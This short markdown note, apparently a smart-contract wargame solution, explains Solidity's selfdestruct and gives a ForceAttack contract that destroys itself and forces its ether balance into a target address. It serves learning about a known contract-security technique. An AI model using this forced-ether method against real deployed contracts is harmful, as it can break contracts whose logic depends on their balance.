

# Self Destruct

When the selfdestruct() function is called, it will send the remaining balance inside of it to any address it points to.

Example selfdestruct contract:

```solidity
pragma solidity ^0.6.0;

contract ForceAttack {
	constructor() public payable{
	
	}
	
	function attack(address _contractAddr) public {
		selfdestruct(_contractAddr);
	
	}


}
```



Run attack function with address you want money sent to.